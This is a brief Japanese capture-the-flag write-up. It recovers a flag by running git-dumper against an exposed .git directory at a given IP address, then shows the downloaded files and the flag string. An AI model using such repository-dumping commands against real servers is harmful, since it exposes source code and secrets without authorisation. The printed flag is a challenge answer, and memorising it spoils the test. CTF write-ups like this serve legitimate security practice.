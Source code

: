 タイトルから、明らかにgitが関係してるっぽいのはわかります。

<pre>
$ git-dumper http://18.216.238.24:1002/.git/ ./output/
</pre>

<br />

ダウンロードしてきたファイルの中に、すでにflag.txtがありました。

git-dumper 優秀！

<pre>
$ ll
total 12
drwxr-xr-x 1 501  224 Apr 16 20:39 ./
drwxr-xr-x 1 501   96 Apr 16 20:39 ../
-rw-r--r-- 1 501   32 Apr 16 20:39 flag.txt
drwxr-xr-x 1 501  384 Apr 16 20:39 .git/
-rw-r--r-- 1 501  563 Apr 16 20:39 index.html
-rw-r--r-- 1 501 3316 Apr 16 20:39 oneko.gif
-rw-r--r-- 1 501 5073 Apr 16 20:39 oneko.js
</pre>

<br />

Flag: `texsaw{0h_n0_my_g1t_15_3xp053d!}`

<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
